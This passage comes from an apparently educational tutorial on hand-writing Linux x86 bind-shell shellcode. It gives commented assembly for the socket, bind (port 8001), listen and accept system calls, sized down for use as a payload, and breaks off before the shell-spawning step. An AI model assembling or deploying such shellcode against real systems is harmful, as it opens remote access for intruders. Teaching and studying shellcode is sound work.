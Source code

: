 Ok, so here I disassemble the binsh function and I've just let the interesting code. I also disassemble the socket function.

at **<socket+2>** we can see : `mov    $0x66,%eax`. that corresponds to the `syscall socket` (0x66 = 102d).
Go to part II/: if you've already forgotten about this. 
Then at **<socket+7>** we can see : `mov    $0x1,%ebx`.
And we saw in part II that 0x1 in %ebx corresponds to socket().
	

So we can end with :

```assembly
	#socket(AF_INET, SOCK_STREAM, 0);
	xor %ebx, %ebx      # clear ebx
	mul %ebx      # clear eax
	inc %bl       # %ebx = 1 = socket() (bl = lsb of ebx)
	movb $0x66, %al     # socketcall() in %eax, al = lsb of %eax
	cdq       # bits of %edx are equal of the mst of %eax
			# i.e here equivalent at mov $0x0, %edx
	push %edx     # IPPROTO_IP
	push $0x1       # SOCK_STREAM
	push $0x2       # AF_INET
	mov %esp, %ecx      # move pointer to args to ecx
	int $0x80       # call socket()
	mov %eax, %edi      # save socketfd to use it later
```

I commented each lines. This is actually the most complicated part of this "paper". There is several possibility to write it in asm. This is one. Probably not the best one but I tried to reduce the size of the code... So after several hours of works I end up with :

```assembly
	#bind(sockfd, (struct sockaddr *) &host_addr, sizeof(struct sockaddr));
	#bind(sockfd, {2, 8001, 0}, 16);
	xor %eax, %eax
	movb $0x66, %al     # socketcall() in %eax
	inc %ebx      # %ebx = 1 so inc bl -> %ebx = 2 = bind()
	push %edx     # Construct sockaddr : INADDR_ANY = 0 (%edx = 0)
	pushw $0x411f       # PORT = 8001 (reverse cause 8001d = 0x1f41)
	push %bx      # AF_INET = 2
	mov %esp, %ecx      # %ecx point on the struct sockaddr.
	push $16      # sizeof(struct sockaddr)
	push %ecx       # (struct sockaddr *) &host_addr
	push %edi       # sockfd
	mov %esp, %ecx      # pointer to args
	int $0x80       # call bind();

	#listen(sockfd, 5);
	xor %eax, %eax
	movb $0x66, %al     # socketcall() in %eax
	add %ebx, %ebx      # %ebx = 4 = listen()
	push $0x5       # queue = 5
	push %edi       # %edi is the sockfd
	mov %esp, %ecx      # pointer to args
	int $0x80       # call listen();


	#new_sockfd = accept(sockfd, NULL, NULL);
	push $0x66
	pop %eax      # socketcall() in %eax
	inc %ebx      # %ebx = 5 = accept()
	push %edx       # 0
	push %edx       # NULL
	push %edi       # sockfd
	mov %esp, %ecx      # pointer to args
	int $0x80       # call accept()
```